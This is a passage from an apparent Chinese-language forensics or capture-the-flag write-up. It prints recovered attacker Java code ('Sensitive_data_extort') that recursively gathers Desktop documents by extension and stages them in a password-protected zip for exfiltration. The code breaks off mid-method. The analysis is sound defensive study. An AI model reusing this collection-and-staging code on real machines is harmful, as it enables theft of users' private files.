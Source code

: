 ```plaintext title="Answer"
C:\Users\Simon.stark\Desktop\LootAndPurge.java
```

## Task 3

> 包含所有要外泄的数据的最终存档文件的文件名是什么？

在 `backup\LootAndPurge.java@2023-07-24_145332` 中得到源码数据

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.util.ArrayList;
import java.util.Arrays;
import java.util.List;
import java.util.zip.ZipEntry;
import java.util.zip.ZipOutputStream;

public class Sensitive_data_extort {
    public static void main(String[] args) {
        String username = System.getProperty("user.name");
        String desktopDirectory = "C:\\Users\\" + username + "\\Desktop\\";
        List<String> extensions = Arrays.asList("zip", "docx", "ppt", "xls", "md", "txt", "pdf");
        List<File> collectedFiles = new ArrayList<>();

        collectFiles(new File(desktopDirectory), extensions, collectedFiles);

        String zipFilePath = desktopDirectory + "Forela-Dev-Data.zip";
        String password = "sdklY57BLghvyh5FJ#fion_7";

        createZipArchive(collectedFiles, zipFilePath, password);

        System.out.println("Zip archive created successfully at:" + zipFilePath);
    }

    private static void collectFiles(File directory, List<String> extensions, List<File> collectedFiles) {
        File[] files = directory.listFiles();
        if (files != null) {
            for (File file : files) {
                if (file.isDirectory()) {
                    collectFiles(file, extensions, collectedFiles);
                } else {
                    String fileExtension = getFileExtension(file.getName());
                    if (extensions.contains(fileExtension)) {
                        collectedFiles.add(file);
                    }
                }
            }
        }
    }


    private static String getFileExtension(String fileName) {
        int dotIndex = fileName.lastIndexOf(".");
        if (dotIndex> 0 && dotIndex < fileName.length() - 1) {
            return fileName.substring(dotIndex + 1).toLowerCase();
        }
        return "";
    }

    private static void createZipArchive(List<File> files, String zipFilePath, String password) {
```